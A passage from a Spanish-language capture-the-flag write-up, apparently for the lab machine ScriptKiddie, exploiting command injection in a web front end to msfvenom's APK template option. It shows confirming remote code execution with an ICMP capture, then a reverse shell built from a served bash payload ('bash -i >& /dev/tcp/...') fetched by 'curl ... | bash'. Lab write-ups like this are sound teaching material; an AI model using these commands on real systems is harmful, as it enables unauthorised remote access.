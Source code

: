```sh
❯ cp /tmp/tmpd31m_r3o/evil.apk /home/guise/Descargas

❯ ls -l evil.apk
.rw-r--r-- root root 1.9 KB Wed May  8 17:42:13 2024  evil.apk
❯ chown guise:guise evil.apk
❯ ls -l evil.apk
.rw-r--r-- guise guise 1.9 KB Wed May  8 17:42:13 2024  evil.apk
```

## Explotación y Reverse Shell

Ya podemos intentar la explotación de la vulnerabilidad en msfvenom. Primero nos ponemos en escucha de trazas ICMP para comprobar que funciona ese *ping* y tenemos RCE:

```sh
❯ sudo tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Y ahora en la web objetivo, en la sección payloads en os=android, en lhost podemos poner 127.0.0.1 (creo que valdría cualquier cosa) y en template file subiremos el recién apk creado con el script de python3, el **evil.apk**. Damos a "Generate":

![Web2]({{ 'assets/img/writeups/ScriptKiddie/webExploit.png' | relative_url }}){: .center-image }

Y parece que nos llega el ping:

```sh
❯ sudo tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:47:20.338956 IP 10.10.10.226 > 10.10.14.19: ICMP echo request, id 1, seq 1, length 64
17:47:20.338971 IP 10.10.14.19 > 10.10.10.226: ICMP echo reply, id 1, seq 1, length 64
```

Ahora en vez de lanzarnos un ping vamos a lanzarnos una reverse, hay bastantes maneras para hacerlo, pero una sencilla que no suele dar problemas porque no tiene muchos caracteres especiales de por medio es `curl IPLOCAL | bash`. Si nosotras abrimos un servidor en python en local; `python3 -m http.server 80` y en ese directorio donde abrimos el servidor alojamos un **index.html** con el siguiente contenido:

```html
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.19/443 0>&1
```

Cuando el objetivo lanze el comando `curl IPLOCAL | bash` querrá descargarse el index.html (siempre van a ese archivo por defecto digamos) del servidor que comparto, luego ejecutará el contenido. Miremos el ejemplo que hago en local:

```sh
# Me pongo en escucha desde una consola:
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

